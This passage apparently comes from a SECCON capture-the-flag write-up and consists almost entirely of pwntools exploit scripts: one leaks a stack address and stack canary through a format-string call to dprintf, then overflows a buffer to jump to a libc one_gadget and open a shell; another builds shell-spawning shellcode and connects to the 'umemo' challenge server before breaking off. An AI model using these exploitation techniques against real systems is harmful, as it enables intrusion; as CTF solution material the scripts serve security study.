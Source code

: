```python
        r.recvuntil(b"terminated\n")
        r.send(flat({
            0x48: p32(1),
            0x40: next(libc.search(b"%s(%s%c%#tx) [%p]")),
            0x50: libc.symbols["dprintf"],
        }).ljust(0x58, b"\x00"))
        r.recvuntil(b"0x7")
        stack_leak = int(b"0x7" + r.recvuntil(b")")[:-1], 16)
        r.recvuntil(b"]")
        print("stack_leak", hex(stack_leak))

        r.send(flat({
            0x48 - 32: p32(1),
            0x40 - 32: stack_leak + 0x290 + 1,
            0x50 - 32: libc.symbols["dprintf"],
        }).ljust(0x58, b"\x00"))
        stack_cookie = b"\x00" + r.recvn(7)
        print("stack_cookie", stack_cookie)

        r.recvuntil(b"terminated\n")

        r.send(b"\x00" * 32)
        time.sleep(0.5)

        payload = b""
        payload += b"\x00" * (88 - 0x20)
        payload += stack_cookie
        payload += p64(0x404800)
        payload += p64(libc.address + 0xebcf8)
        r.send(payload)

        r.interactive()
    except EOFError:
        continue
    finally:
        r.close()
```

### 3. umemo
---
```python
# solve.py
#!/usr/bin/env python3
from pwn import *
context.update(arch='amd64', os='linux')
p, u = pack, unpack

def check_byte(b):
    # bytes eaten by qemu tty weirdness
    assert b not in [3, 4, 10, 17, 19, 21, 26, 28, 127], b

def check_bytes(bs):
    for b in bs:
        check_byte(b)

SHELLCODE = asm(shellcraft.sh())
check_bytes(SHELLCODE)

r = remote('ukqmemo.seccon.games', 6318)
_, param, token = r.recvline().decode().strip().split()
assert param == '-mb26', param
result = subprocess.check_output(['hashcash', '-q', '-mb26', token])
r.sendline(result.strip())
```